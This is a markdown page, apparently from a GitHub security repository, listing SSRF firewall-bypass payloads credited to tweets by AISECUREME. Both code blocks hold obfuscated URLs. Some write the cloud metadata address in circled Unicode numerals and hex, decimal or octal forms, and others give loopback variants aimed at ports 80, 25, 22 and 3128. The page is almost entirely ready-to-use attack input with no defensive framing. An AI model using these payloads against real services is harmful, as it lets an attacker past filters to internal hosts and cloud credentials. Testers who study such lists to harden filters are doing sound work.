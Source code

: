 SSRF WAF BYPASSES [tweet](https://twitter.com/aisecureme/status/1238061828229353473) By [AISECUREME](https://twitter.com/aisecureme)

![SSRF](Images/ssrf.png)

```
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥
```
------------------------------------------------------------------------------------
[tweet](https://twitter.com/aisecureme/status/1238853314193682432) By [AISECUREME](https://twitter.com/aisecureme)
```http://[::]:80/
http://[::]:25/
http://[::]:22/
http://[::]:3128/
http://0000:80/::1/
http://0000:25/::1/
http://0000:22/::1/
http://0000:3128/::1/
http://127.0.1.3/
http://127.0.0.0/
http://0177.0.0.1/
http://2130706433/
http://3232235521/
http://3232235777/
```

------------------------------------------------------------------------------------
